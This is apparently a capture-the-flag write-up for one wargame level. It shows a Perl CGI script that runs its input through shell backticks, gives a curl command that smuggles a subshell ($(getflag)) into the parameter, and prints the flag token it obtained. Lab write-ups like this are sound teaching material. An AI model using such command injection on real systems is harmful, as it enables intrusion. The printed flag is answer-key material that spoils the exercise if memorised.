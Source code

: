 ### Level04

On our HOME we can see a pearl script:
```pearl
    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html";
    sub x {
      $y = $_[0];
      print `echo $y 2>&1`;
    }
    x(param("x"));`
```

The script takes a parameter and then prints it to the screen. We are also told that the result is accessible on localhost:4747.

To get the flag, all we have to do is run a command of our choice through the script. 

curl localhost:4747?x='$(getflag)'`

Here we use a subshell to make the script run the getflag command. So we get the token :

`ne2searoevaevoem4ov4ar8ap`
